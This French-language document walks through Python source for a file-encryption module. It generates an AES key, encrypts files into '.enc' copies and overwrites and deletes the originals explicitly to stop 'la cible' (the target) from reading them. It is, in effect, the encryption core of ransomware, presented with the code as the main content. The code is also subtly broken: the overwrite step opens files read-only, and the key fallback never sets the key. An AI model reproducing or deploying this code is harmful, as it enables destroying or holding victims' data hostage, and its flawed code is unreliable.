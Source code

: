 ## Chiffrement des fichiers

Le chiffrement des fichiers se fait par le module encrypt_files.

### Génération de la clé AES

Voici le module pour générer la clé AES.
Ici, nous utilisons la librairie PyCryptodome pour générer une suite de bytes aléatoires que nous allons utiliser comme clé de chiffrement.
Ensuite, nous enregistrons cette clé dans un fichier keyfile.key afin de pouvoir la réutiliser pour chiffrer les fichiers et ensuite déchiffrer les fichiers.


```python
def save_key(key, keyfile_path):
    """Cette fonction permet d'enregistrer la clé générer dans un fichier afin de pouvoir la
    partager et la réutiliser pour chiffrement et déchiffrement du dossier

    Args:
        key: clé secrète AES
        keyfile_path: le fichier dans lequel sera enregistrée la clé
    """
    with open(keyfile_path, 'wb') as keyfile:
        keyfile.write(key)
    print(f"Clé enregistrée dans {keyfile_path}.")
    
def generate_key():
    key = get_random_bytes(32)
    key_file_path = "keyfile.key"
    save_key(key, key_file_path)
```


### Récupération de la clé AES

Ici, nous tentons tout d'abord de récupérer la clé générée au préablable en indiquant le chemin du fichier dans lequel est enregistré la clé (keyfile.key).
La fonction load_key tente d'ouvrir et lire ce fichier.
Si la fonction échoue, afin d'éviter un crash du programme, nous générons et enregistrons une nouvelle clé grâce à la fonction generate_key du module generate_key.

```python
def load_key(keyfile_path):
    with open(keyfile_path, 'rb') as keyfile:
        return keyfile.read()

keyfile_path = "keyfile.key"       
try:
    key = load_key(keyfile_path)
except Exception as e:
    generate_key()
```

### Chiffrement des fichiers
Ici, nous chiffrons les fichiers grâce à une itération sur chaque fichier, qui est ensuite chiffré avec la fonction encrypt_file.

La fonction encrypt_file prend en paramètres le chemin du fichier et la clé de chiffrement.
Nous ouvrons d'abord le fichier avec python en mode binaire (c'est la signification de l'option 'rb').
C'est important d'ouvrir le fichier en mode binaire parce qu'AES ne peut chiffrer que des octets et non du texte. Nous enregistrons ainsi le contenu du fichier sous forme de bytes dans la variable file_data.
Ensuite nous créons un nouveau object AES de la lirairie PyCryptodome en mode CBC (Cipher Block Chaining), qui doit nous permettre de chiffrer le fichier.

Explication des fonctions de la librairie : 

pad()
Le padding est nécessaire parce qu'AES travaille avec des blocs de taille fixe (16 octets pour AES). Si les données du fichier ne sont pas un multiple de la taille de bloc, la fonction pad ajoute des octets supplémentaires pour compléter le dernier bloc.

cipher.iv
Le mode CBC nécessite un vecteur d'initialisation (IV) pour fonctionner. Il est ajouté au début du texte chiffré. L'IV permet une part d'aléatoire au chiffrement.

Aisni, la fonction encrypt_file retourne une combinaison du vecteur d'initialisation (cipher.iv), qui occupe les 16 premiers octets et du texte chiffré (cipher.encrypt(...)) qui suit.

```python
def encrypt_file(file_path, key):
    with open(file_path, 'rb') as f:
        file_data = f.read()
    cipher = AES.new(key, AES.MODE_CBC)
    ciphertext = cipher.iv + cipher.encrypt(pad(file_data, AES.block_size))
    return ciphertext

encrypted_files = {}
for file_path in files_to_encrypt:
    ciphertext = encrypt_file(file_path, key)
    encrypted_file_path = file_path + ".enc"
    with open(encrypted_file_path, 'wb') as f:
        f.write(ciphertext)
    encrypted_files[file_path] = encrypted_file_path
```

### Suppression des fichiers originaux pour empêcher la lecture

Enfin, nous supprimons les fichiers d'origine pour empêcher la lecture par la cible.
D'abord, nous récupérons la taille du fichier en octets (nombre total d'octets dans le fichier).
Cette information est nécessaire pour savoir combien de données aléatoires doivent être écrites pour écraser complètement le fichier. 
os.urandom(file_size) génère ensuite une séquence d'octets aléatoires de longueur égale à file_size.
Ces octets sont cryptographiquement sûrs, ce qui rend leur récupération extrêmement difficile. Puis, f.write écrit les octets générés directement dans le fichier, remplaçant son contenu existant. Cela garantit que l'ancien contenu est écrasé avant que le fichier ne soit supprimé.
os.remove(file_path)
Cette fonction supprime le fichier du système de fichiers après que son contenu a été écrasé.


```python
def secure_delete(file_path):
    try:
        with open(file_path, 'rb') as f:
            file_size = os.path.getsize(file_path)
            f.write(os.urandom(file_size))
        os.remove(file_path)
    except Exception as e:
        print(f"Erreur lors de la suppression sécurisée de {file_path}: {e}")
        
secure_delete(file_path)
```
